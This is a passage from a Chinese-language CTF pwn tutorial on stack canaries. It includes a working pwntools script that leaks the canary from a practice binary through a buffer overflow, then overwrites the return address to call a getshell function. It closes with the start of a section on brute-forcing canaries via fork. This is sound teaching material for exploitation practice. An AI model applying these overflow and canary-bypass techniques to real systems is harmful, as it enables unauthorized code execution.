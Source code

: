 可以发现每次进程启动的 canary 值都不一样；现在需要将 canary 的值泄露出来，因为这里存在栈溢出和格式化字符串漏洞，这样可以将 canary 当作 buf 的一部分进行输出

构造 exp：

```bash
#-*- codingLutf-8 -*-
from pwn import *

context(os='linux',arch='i386',log_level='debug')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
p = process('./canary1')
e = ELF('./canary1')
get_shell = e.sym['getshell']
#1 leak canary
p.recvuntil('Hello Hacker!')
payload = 'a'*100
p.sendline(payload)

p.recvuntil('a'*100)
canary = u32(p.recv(4))-0xa
log.info("Canary:"+hex(canary))

#bypass canary
payload = 'a'*100+p32(canary)+'a'*8+'a'*4+p32(get_shell)
p.sendline(payload)
p.interactive()
```

首先解释为什么第一个 payload 需要输入 100 个 a，跟 gdb 调试的时候不一致？

因为 printf 碰到换行符会将缓冲区的字符输出，然后刷新缓冲区；输入 100 个 a 的原因正是将 sendline 添加的换行符溢出到 canary 的低字节，这样在 printf 输出的时候将 100 个 a 放到缓冲区后不会输出，会继续读取 canary，由于小端存储，故会将 canary 的值也添加到缓冲区，再碰到换行，输出缓冲区的内容，这也是为什么在接受到输出后会减去 0xa 得到真实的 canary(这里溢出的 0xa 占用 canary 的低字节，不会影响里面的值，**因为 canary 低字节为 00**)

为什么第二个 payload 中间需要填充 12 个 a？

观察加入 canary 后栈中的分配即可得到答案，前 8 个 a 是填充 canary 到 ebp 的 8 字节距离，而后面的 4 个 a 是填充 esp

## 爆破 Canary

### 原理

**每次进程重启的 Canary 不同，但是同一个进程中的不同线程的 Canary 是相同的，并且通过 fork 创建的子进程的 Canary 是相同的**

### 条件

与泄露 Canary 的条件一致，唯一的区别在于不存在合适的输出缓冲区字符串的函数

### 利用

查看保护：

```bash
qufeng@qufeng-virtual-machine:~/Desktop/CTF/pwn/stack/canary$ checksec bin1
[*] '/home/qufeng/Desktop/CTF/pwn/stack/canary/bin1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
